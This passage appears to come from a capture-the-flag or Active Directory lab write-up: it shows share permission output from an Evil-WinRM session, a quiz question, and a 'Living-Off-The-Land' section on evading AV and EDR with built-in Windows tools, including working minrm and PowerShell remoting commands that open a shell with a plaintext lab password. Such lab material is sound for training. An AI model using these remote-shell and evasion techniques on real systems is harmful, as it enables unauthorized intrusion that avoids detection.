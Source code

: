 ```
*Evil-WinRM* PS C:\shares> Get-Acl C:\shares\svc_home$ | Format-List


Path   : Microsoft.PowerShell.Core\FileSystem::C:\shares\svc_home$
Owner  : BUILTIN\Administrators
Group  : async\Domain Users
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  AppendData
         BUILTIN\Users Allow  CreateFiles
         CREATOR OWNER Allow  268435456
Audit  :
Sddl   : O:BAG:DUD:AI(A;OICIID;FA;;;SY)(A;OICIID;FA;;;BA)(A;OICIID;0x1200a9;;;BU)(A;CIID;LC;;;BU)(A;CIID;DC;;;BU)(A;OICIIOID;GA;;;CO)
```

**Q16**: What is the `AccountName` of the group that have `Full` rights to the `developers` share? (example: `async\GroupName`)

### 3.2. Living-Off-The-Land

> If you're playing in our CTF, this might help you :P

In mature environments, it's likely that AV and EDR solutions are deployed. These solutions can be bypassed by using built-in Windows tools and protocols to perform actions that seem "normal" to the system. This is known as "Living-Off-The-Land" (LOTL) techniques.

For example, the `evil-winrm` tool can be used to utilize the `WinRM` protocol to obtain a shell on the target machine. This tool does not have many OOTB (Out-Of-The-Box) IOCs, except if you use the additional functionalities such as `Invoke-Binary` etc.

There are many alternatives to `evil-winrm` if you are unsatisfied with the tool (as it does a lot of things under the hood):

```
minrm -i 'fs.async.local' -u 'Tyler_ROSE' -p 'OyShGdq86AIG8RzdaAS5L' --ssl       
[+] Creating WSMan object for Tyler_ROSE@fs.async.local
[*] Verifying connection to Tyler_ROSE@fs.async.local
[+] Connected to Tyler_ROSE@fs.async.local
[!] be careful with what you execute! this is not a real shell
[tyler_rose@fs.async.local] PS> whoami
Output:
async\tyler_rose

[tyler_rose@fs.async.local] PS> 
```

Alternatively (a bit buggy), you can use `pwsh`'s `Enter-PSSession` command to obtain a shell on the target machine:

```
$pass = ConvertTo-SecureString "OyShGdq86AIG8RzdaAS5L" -AsPlainText
$cred = New-Object System.Management.Automation.PSCredential('Tyler_ROSE@async.local', $pass)
$opt = New-PSSessionOption -SkipCACheck -SkipCNCheck
$session = New-PSSession -ComputerName fs.async.local -Credential $cred -Authentication Negotiate -UseSSL -SessionOption $opt
Enter-PSSession -Session $session

[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami
async\tyler_rose
```
